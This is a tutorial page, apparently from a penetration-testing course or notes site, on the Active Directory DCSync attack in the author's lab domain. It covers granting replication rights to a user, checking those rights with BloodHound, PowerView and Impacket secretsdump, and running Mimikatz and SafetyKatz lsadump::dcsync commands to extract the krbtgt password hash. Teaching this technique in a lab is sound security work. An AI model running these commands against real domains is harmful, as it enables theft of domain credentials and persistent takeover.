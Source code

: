 # 8.7.2 - DCSync Attack

## DCSynk Attack

DCSynk Attack is a tecnique used in post-exploitation scenarios in order to extract sensitive data from an AD domain by abusing the AD replication feature, which guide how DC synchronize data between themselves.

The DCSync attack trucks a DC into thinking the attacker is another legitimate DC that needs replication data.

The replication data extract with this attack includes:

* NTLM password hashes (including krbtgt)
* Kerberos key
* Password hystory

So, DCSync can be combined with other attacks, such as the Golden Ticket attack, to establish persistance into a domain

### Configuration of a vulnerable user

Go into Domain Controller account:

* Open Active Directory Users and Computers
* Click on DC: dev-angelist.lab -> Properties -> Security -> Add (devan), Check Names, Ok

<figure><img src="../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

Select devan user and mark as allow these three permissions:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes In Filtered Set

and confirm.

<figure><img src="../../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

In alternative is possible to set them using AD module command:

```powershell
Import-Module .\RACE.ps1

Set-ADACL -SamAccountName devan `
-GUIDRight DCSync `
-DistinguishedName 'DC=dev-angelist,DC=lab' `
-Verbose
```

### Check if a machine is vulnerable to DCSync attack

We can check if all go right using BloodHound:

```bash
python3 -m venv venv
. venv/bin/activate
pip3 install bloodhound

bloodhound-python -u administrator -p 'P@$$W0rd' -ns 192.168.57.9 -d dev-angelist.lab -c All --zip
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

we can common upload it ang log-in using neo4j or using [bloodhound-cli](https://github.com/SpecterOps/bloodhound-cli) tool:

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
./bloodhound-cli containers start
#Access to Bloodhound UI at: http://127.0.0.1:8080/ui/login
#Go to file ingest and upload bloodhound zip file generated
#And check: Dangerous Privileges -> Principals with DCSync privileges
```

If there're "AllExtendedRights" and "GenericAll" permissions we can perform DCSync Attack.

In alternative, we can use PowerView (if we've access to Devan machine):

```powershell
Get-ObjectAcl -SamAccountName devan -ResolveGUIDs | ?{$_.ActiveDirectoryRights -match "Replicating"}
```

or we can check it on attacker machine (linux / kali) using Secretsdump module of Impacket:

```bash
secretsdump.py 'devan:new_password123'@192.168.57.9
```

**Mimikatz**

Let's assume we've a low privileged access to a workstation joined into the domain, in my case i log into: `dev-angelist\devan`'s account.

Download and extract Mimikatz:

```powershell
iwr -uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
Expand-Archive -Path 'mimikatz_trunk.zip'
cd .\mimikatz_trunk\
#Win32 Folder in this case, because this machine is 32bit
```

and run it to leak the NTLM hash of krbtgt user:

```powershell
.\mimikatz.exe
lsadump::dcsync /domain:dev-angelist.lab /user:krbtgt" "exit"
```

Using Safetykatz

```powershell
C:\Users\Administrator\Documents\Tools\SafetyKatz.exe "lsadump::dcsync /user:dev-angelist\krbtgt" "exit"
```

### Labs

* [Learning Object 12 lab](../../lab/12-lo1-2.md)
